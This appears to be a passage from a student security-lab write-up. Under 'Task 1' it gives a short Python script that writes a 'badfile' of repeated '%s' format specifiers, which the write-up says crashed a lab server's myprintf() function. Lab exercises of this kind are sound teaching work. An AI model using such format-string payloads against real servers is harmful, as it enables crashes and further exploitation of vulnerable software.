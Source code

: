 # Task 1

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

for i in range(0, N, 2):
  content[i:i+2] = ("%s").encode('latin-1')

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

We used this generator of %s to get an input in order to overflow the myprintf() function.

![alt text](img/Screenshot%202022-10-25%20at%2010.23.25.JPG)
![alt text](img/Screenshot%202022-10-25%20at%2010.22.52.JPG)
Overflowed the server.

# Task 2